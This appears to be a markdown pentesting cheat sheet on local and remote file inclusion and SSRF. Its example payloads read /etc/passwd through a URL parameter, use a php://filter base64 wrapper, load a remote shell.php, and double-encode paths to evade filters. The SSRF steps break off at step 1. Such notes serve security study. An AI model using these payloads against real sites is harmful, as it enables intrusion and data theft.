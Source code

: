 
# File inclusion
## LFI
If a local file is queried via a URL parameter, an attacker might be able to query local files that weren't intended to be seen.
### Example usage and occurrence
`http://site.com?module=login.php`    
A bad actor could exploit this and make the following URL:    
`http://site.com?module=/etc/passwd`   

### Code execution via url and file render
If the url parameter allows for code to be executed, one might be able to get access to local resources.

```
php://filter/convert.base64-encode/resource=<FILE>
```

The code above will get a file in base64, one would need to decode it and will be able to read any file which they have permission to.


## RFI
This would happen when a web app allows users to include remote files in the URL.
### Example usage and occurrence
`http://site.com?file=http://127.0.0.1/file`    
A bad actor could exploit this and make the following URL:    
`http://site.com?file=http://127.0.0.1/shell.php`    
This would allow an attacker to get a malicious file on the webserver.
### Errors
If there are any error whilst trying the methods described above, one might try to url encode the whole url either once or numerous times.    
That is because some rules are configured so that they wouldn't look for url encoded strings.
#### Example
`../login.php` would become `..%252Flogin.php`

### Other help
[https://book.hacktricks.xyz/pentesting-web/file-inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)


# SSRF
Server Side Request Forgery     
This would occur on a web page that allows for redirects. One could change the header with a proxy to their own server and upload / use their malicious file(s) on the victim's machine.
## Procedure
1. Make a script to redirect somewhere of your choice
